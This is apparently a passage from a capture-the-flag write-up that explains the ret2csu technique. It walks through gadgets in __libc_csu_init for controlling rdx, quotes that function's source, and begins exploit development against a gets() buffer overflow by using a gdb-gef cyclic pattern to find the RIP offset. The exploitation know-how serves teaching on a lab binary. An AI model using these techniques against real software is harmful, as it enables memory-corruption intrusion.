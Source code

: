 It is not that long, so we can get this in a minute or two completely, though there's no point in understanding th whole workflow of the function so I'm going to take a look  over the instructions which will be useful.
Now, as you see the following lines:-

```asm
   0x0000000000400670 <+64>:	mov    rdx,r15
   0x0000000000400673 <+67>:	mov    rsi,r14
   0x0000000000400676 <+70>:	mov    edi,r13d
```

This seems interesting, the contents of `r13`, `r14` and `r15` are going in `edi`, `rsi` and `rdx` respectively. Remember, we had access to `r15` but not to `rdx` and the instruction at `__libc_csu_init + 64` can move the content of `r15` to `rdx`, that is the one we were looking for. But before start using these gadgets we need to understand what exactly is `__libc_csu_init` and it's usage.


---

### __libc_csu_init

The `__libc_csu_init` is found in every binary, the purpose of this function is for initialization of functions and variables such that our binary is ready to use. From the libc source code, we can see:-

```C
int __libc_csu_init(int argc, char **argv, char **envp)
{
    /*
     * Call all the __attribute__((constructor)) functions.
     * These symbols are generated by the linker.
     */
    size_t num_init = __init_array_end - __init_array_start; 
    for (size_t i = 0; i < num_init; i++) {
        __init_array_start[i](argc, argv, envp);
    }
}
```

In a nutshell, it calculates the difference between the `__init_array`'s start and end address which contains the functions, constructors, destructors, objects etc. which called at the time of initialization and hence, initialize them accordingly. I'm not covering much since the **journey of how main is called from a binary** would take it's own post, for now this is the knowledge we need.

---

Now, let's break down the process of creating an exploit and cover it one by one. Let's get started:-

### Finding offset to RIP

As usual, we need to know that exact how much bytes we need to give to the input in order to get the control of instruction pointer. Since we already used `gets`, we know that this program is vulnerable to buffer overflow, time to use `gdb-gef`'s `pattern` which will help us.

```asm
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: /tmp/ctf/pwn1/chall 
Welcome to the world of Pwning
I'd like to know the name of brave warrior
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
```
